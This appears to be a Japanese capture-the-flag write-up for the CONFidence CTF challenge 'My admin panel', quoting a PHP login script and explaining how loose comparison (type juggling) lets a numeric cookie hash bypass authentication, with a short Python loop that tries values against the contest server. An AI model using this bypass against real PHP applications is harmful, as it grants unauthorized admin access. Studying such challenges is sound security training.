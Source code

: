 # CONFidence CTF

## My admin panel

```
My admin panel
Points: 58
Solves: 119
I think I've found something interesting, but I'm not really a PHP expert. Do you think it's exploitable?

https://gameserver.zajebistyc.tf/admin/
The flag format is: p4{letters_digits_and_special_characters}.
If you have any questions, you can find our team-members at the IRC channel #p4team @ freenode.
```

* URLに遷移すると、login.phpとlogin.php.bkが該当のディレクトリにあることが分かる。
* bkのほうのコードは以下のようで、cookieにotadminという名前で、値にhashをキーにして値を渡してやり、その値がサーバー側で保持している値（cfg_pass）のMD5と合致したら、display_admin()が発火されるという仕組み。

```
<?php

include '../func.php';
include '../config.php';

if (!$_COOKIE['otadmin']) {
    exit("Not authenticated.\n");
}

if (!preg_match('/^{"hash": [0-9A-Z\"]+}$/', $_COOKIE['otadmin'])) {
    echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n";
    exit();
}

$session_data = json_decode($_COOKIE['otadmin'], true);

if ($session_data === NULL) { echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n"; exit(); }

if ($session_data['hash'] != strtoupper(MD5($cfg_pass))) {
    echo("I CAN EVEN GIVE YOU A HINT XD \n");

    for ($i = 0; i < strlen(MD5('xDdddddd')); i++) {
        echo(ord(MD5($cfg_pass)[$i]) & 0xC0);
    }

    exit("\n");
}

display_admin();

```

* ord関数は文字のASCII値を返す。
* 適当にcookieに値を詰めると以下のような文面が現れる

```
I CAN EVEN GIVE YOU A HINT XD 0006464640640064000646464640006400640640646400
```

* 上の結果から、cfg_passのMD5変換したもののうち、64になっているところは、a~fのどれかで、0のところは数字であることが分かる。

* 全組み合わせを総当たりはきつそう。

* と思いきや、上記のコードでは[loose comparison](https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf)をしているので、最初に数字以外の記号が出てくるまでの数字と等しい値をcookieに入れてやれば、display_admin()まで到達できる。

* 上記の結果から、最初の三桁は0～9の数字であることが分かるので、以下のようなコードで0～1000まで確かめてやればよい

```
import requests

url = 'https://gameserver.zajebistyc.tf/admin/login.php'
s = requests.Session()
for i in range(1000):
    r = s.get(url, cookies={'otadmin': '{"hash": ' + str(i) + '}'})
    if 'HINT' not in str(r.content):
        print(str(r.content))
        break
```


